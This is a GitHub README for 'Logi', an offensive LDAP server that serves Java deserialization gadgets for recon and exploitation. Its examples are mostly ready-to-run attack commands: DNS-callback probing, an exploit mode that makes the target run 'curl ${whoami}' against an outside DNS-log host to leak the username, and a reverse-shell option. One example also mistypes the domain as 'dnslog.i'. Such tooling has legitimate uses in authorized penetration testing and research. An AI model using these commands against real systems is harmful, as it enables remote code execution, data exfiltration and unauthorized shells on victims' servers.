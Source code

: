 # ☕️LOGI
Logi is a ldap server focusing on ldap deserialize recon and exploit.


- [☕️LOGI](#️logi)
  - [✨Get started](#get-started)
  - [⚙️How it work](#️how-it-work)
  - [🚀Examples](#examples)
  - [🔮Image](#image)
  - [💻See also](#see-also)

## ✨Get started
Download logi from release.
Use `-h` to show help.
```
$ ./logi -h
Logi is a ldap server focusing on ldap deserialize recon and exploit.

Usage:
  ./logi [flags]

Flags:
MODE CONFIG:
   -m, -mode int  1 for poc, 2 for probe, 3 for exploit
SERVE CONFIG:
   -i, -ip string    ip for binding (default "0.0.0.0")
   -p, -port string  port for binding (default "1389")
...
```

## ⚙️How it work
Logi hosts a ldap service, waiting for ldap lookup
- poc mode: reply a urldns gadget points to `domain` for deserialize verify
- probe mode: reply different probe gadgets points to `probename.domain` in turn for dependency probe
- exploit mode: reply a gadget for command execute

## 🚀Examples
Run poc mode with dns domain `dnslog.me`.
You need to send a ldap lookup to logi.
```
./logi -m 1 -d dnslog.me
```
Run probe mode with dns domain `dnslog.me` with embed wordlist `yso`.
You need to request many times to traverse the wordlist.
```
./logi -m 2 -d dnslog.me -w yso
```
Run probe mode with dns domain `dnslog.me` with custom wordlist in `./dict.txt`.
One class name per line.
```
./logi -m 2 -d dnslog.me -wp ./dict.txt
```
Run exploit mode with gadget `cb1v18`  with command `curl ${whoami}.dnslog.me`
```
./logi -m 3 -g cb1v18 -c 'curl ${whoami}.dnslog.i'
```
Run exploit mode with gadget `cb1v18` with reverse shell to `127.0.0.1:7777`
```
./logi -m 3 -g cb1v18 -s '127.0.0.1:7777'
```
## 🔮Image
![image](image/logi.png)
## 💻See also
[GadgetProbe](https://github.com/BishopFox/GadgetProbe)

[JNDI-Inject-Exploit](https://github.com/exp1orer/JNDI-Inject-Exploit)